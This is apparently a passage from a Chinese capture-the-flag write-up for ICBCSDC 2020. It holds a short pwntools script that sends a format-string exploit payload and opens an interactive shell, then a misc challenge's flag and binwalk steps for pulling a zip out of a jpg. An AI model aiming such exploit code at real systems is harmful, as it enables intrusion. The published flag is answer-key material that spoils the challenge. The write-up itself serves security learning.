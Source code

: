 ```python
def pwn():

    # gdb
    print "pid: " + str(proc.pidof(io))
    raw_input()

    payload = fmtstr_payload(offset, {vuln: val})
    io.sendline(payload)
    io.interactive()
    return


if __name__ == '__main__':
    pwn()

```

### 0x05 如花

Flag: flag{ru_hua_zhen_shi_la_yan_jing}

解题过程：

binwalk发现该jpg存在zip包

![image-20201121173637787](images/ICBCSDC-2020-CTF-WP/image-20201121173637787.png)

使用binwalk进行分离

![image-20201121173715940](images/ICBCSDC-2020-CTF-WP/image-20201121173715940.png)
